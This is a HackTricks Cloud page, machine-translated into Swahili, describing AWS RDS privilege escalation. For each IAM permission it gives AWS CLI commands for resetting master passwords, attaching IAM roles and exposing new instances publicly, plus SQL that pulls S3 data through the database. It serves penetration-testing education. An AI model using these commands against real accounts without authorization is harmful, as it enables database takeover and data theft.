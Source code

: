 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Huduma ya Hifadhidata ya Uhusiano

Kwa maelezo zaidi kuhusu RDS angalia:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Kwa ruhusa hiyo mshambuliaji anaweza **kubadilisha nenosiri la mtumiaji mkuu**, na kuingia ndani ya hifadhidata:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Utahitaji kuwa na uwezo wa **kuwasiliana na hifadhidata** (zinapatikana kwa kawaida tu kutoka ndani ya mitandao).
{% endhint %}

**Athari Zinazoweza Kutokea:** Pata taarifa nyeti ndani ya hifadhidata.

### rds-db:connect

Kulingana na [**docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) mtumiaji mwenye ruhusa hii anaweza kuungana na mfano wa DB.

### Kunyanyasa Ruhusa za RDS Role IAM

#### Postgresql (Aurora)

{% hint style="success" %}
Ikiwa unakimbia **`SELECT datname FROM pg_database;`** unapata hifadhidata inayoitwa **`rdsadmin`** unajua uko ndani ya **hifadhidata ya postgresql ya AWS**.
{% endhint %}

Kwanza unaweza kuangalia ikiwa hifadhidata hii imetumika kufikia huduma nyingine yoyote ya AWS. Unaweza kuangalia hii kwa kutazama nyongeza zilizowekwa:
```sql
SELECT * FROM pg_extension;
```
Ikiwa unapata kitu kama **`aws_s3`** unaweza kudhani kuwa hifadhidata hii ina **aina fulani ya ufikiaji juu ya S3** (kuna nyongeza nyingine kama **`aws_ml`** na **`aws_lambda`**).

Pia, ikiwa una ruhusa za kukimbia **`aws rds describe-db-clusters`** unaweza kuona huko ikiwa **klasta ina IAM Role yoyote iliyoambatanishwa** katika uwanja wa **`AssociatedRoles`**. Ikiwa ipo, unaweza kudhani kuwa hifadhidata ilikuwa **imeandaliwa kufikia huduma nyingine za AWS**. Kulingana na **jina la jukumu** (au ikiwa unaweza kupata **ruhusa** za jukumu) unaweza **kukisia** ni ufikiaji gani wa ziada hifadhidata ina.

Sasa, ili **kusoma faili ndani ya bakuli** unahitaji kujua njia kamili. Unaweza kuisoma kwa:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Ikiwa ungekuwa na **raw AWS credentials** unaweza pia kuzitumia kufikia data ya S3 kwa:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **haitaji kubadilisha chochote katika parameter group variable** ili kuweza kufikia S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Ndani ya mysql, ukikimbia query **`SELECT User, Host FROM mysql.user;`** na kuna mtumiaji anayeitwa **`rdsadmin`**, unaweza kudhani uko ndani ya **AWS RDS mysql db**.
{% endhint %}

Ndani ya mysql kimbia **`show variables;`** na ikiwa variables kama **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, zina thamani, unaweza kudhani hifadhidata imeandaliwa kufikia data za S3.

Pia, ikiwa una ruhusa ya kukimbia **`aws rds describe-db-clusters`** unaweza kuangalia ikiwa klasta ina **role iliyohusishwa**, ambayo kwa kawaida inamaanisha ufikiaji wa huduma za AWS).

Sasa, ili **kusoma faili ndani ya bucket** unahitaji kujua njia kamili. Unaweza kuisoma kwa:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Mshambuliaji mwenye ruhusa `rds:AddRoleToDBCluster` na `iam:PassRole` anaweza **kuongeza jukumu lililobainishwa kwenye mfano wa RDS uliopo**. Hii inaweza kumwezesha mshambuliaji **kupata data nyeti** au kubadilisha data ndani ya mfano.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Madhara Yanayoweza Kutokea**: Ufikiaji wa data nyeti au mabadiliko yasiyoidhinishwa kwenye data katika RDS instance.\
Kumbuka kwamba baadhi ya DB zinahitaji mipangilio ya ziada kama Mysql, ambayo inahitaji kubainisha ARN ya jukumu katika vikundi vya aprameter pia.

### `rds:CreateDBInstance`

Kwa ruhusa hii tu mshambuliaji anaweza kuunda **instance mpya ndani ya klasta** ambayo tayari ipo na ina **IAM role** iliyounganishwa. Hataweza kubadilisha nenosiri la mtumiaji mkuu, lakini anaweza kuwa na uwezo wa kufichua instance mpya ya database kwa mtandao:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Mshambuliaji mwenye ruhusa `rds:CreateDBInstance` na `iam:PassRole` anaweza **kuunda mfano mpya wa RDS na jukumu lililounganishwa**. Mshambuliaji anaweza kisha **kupata data nyeti** au kubadilisha data ndani ya mfano huo.

{% hint style="warning" %}
Mahitaji mengine ya jukumu/profili ya mfano kuunganishwa (kutoka [**hapa**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Profaili lazima iwepo katika akaunti yako.
* Profaili lazima iwe na jukumu la IAM ambalo Amazon EC2 ina ruhusa ya kukubali.
* Jina la profaili ya mfano na jina la jukumu la IAM lililounganishwa lazima ianze na kiambishi `AWSRDSCustom` .
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Madhara Yanayoweza Kutokea**: Ufikiaji wa data nyeti au mabadiliko yasiyoidhinishwa kwenye data katika RDS instance.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Mshambuliaji mwenye ruhusa `rds:AddRoleToDBInstance` na `iam:PassRole` anaweza **kuongeza jukumu lililotajwa kwenye RDS instance iliyopo**. Hii inaweza kumwezesha mshambuliaji **kufikia data nyeti** au kubadilisha data ndani ya instance hiyo.

{% hint style="warning" %}
DB instance lazima iwe nje ya klasta kwa hili
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Madhara Yanayoweza Kutokea**: Ufikiaji wa data nyeti au mabadiliko yasiyoidhinishwa kwenye data katika RDS instance.

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
